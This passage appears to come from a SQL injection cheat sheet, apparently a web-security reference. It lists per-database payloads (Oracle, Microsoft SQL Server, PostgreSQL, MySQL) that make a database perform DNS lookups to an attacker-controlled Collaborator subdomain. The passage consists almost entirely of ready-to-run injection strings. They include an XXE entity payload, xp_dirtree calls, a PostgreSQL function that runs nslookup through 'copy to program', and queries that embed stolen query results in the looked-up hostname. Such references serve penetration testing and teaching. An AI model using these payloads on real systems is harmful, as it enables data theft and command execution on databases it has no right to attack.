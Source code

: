 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|
